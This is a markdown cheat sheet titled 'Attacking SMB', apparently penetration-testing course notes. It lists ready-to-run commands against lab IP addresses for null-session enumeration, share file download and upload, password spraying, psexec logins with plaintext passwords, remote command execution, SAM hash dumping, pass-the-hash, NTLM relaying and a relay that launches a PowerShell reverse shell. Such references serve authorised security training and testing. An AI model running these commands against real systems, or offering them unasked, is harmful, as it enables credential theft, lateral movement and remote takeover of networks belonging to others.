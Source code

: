 ## Attacking SMB

| **Command** | **Description** |
| --- | --- |
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128` | Network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 -r notes` | Recursive network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the `rpcclient`. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeratition of the SMB service using `enum4linux-ng`. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the `impacket-psexec`. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using `crackmapexec`. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using `impacket-ntlmrelayx`. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |
| `msfconsole smb_login` from Aux | Passwort BruteForcing |
| [SMB-Access-from-Linux.pdf](../_resources/SMB-Access-from-Linux.pdf) | Weitere Befehle für `smbclient` und `rpcclient` |
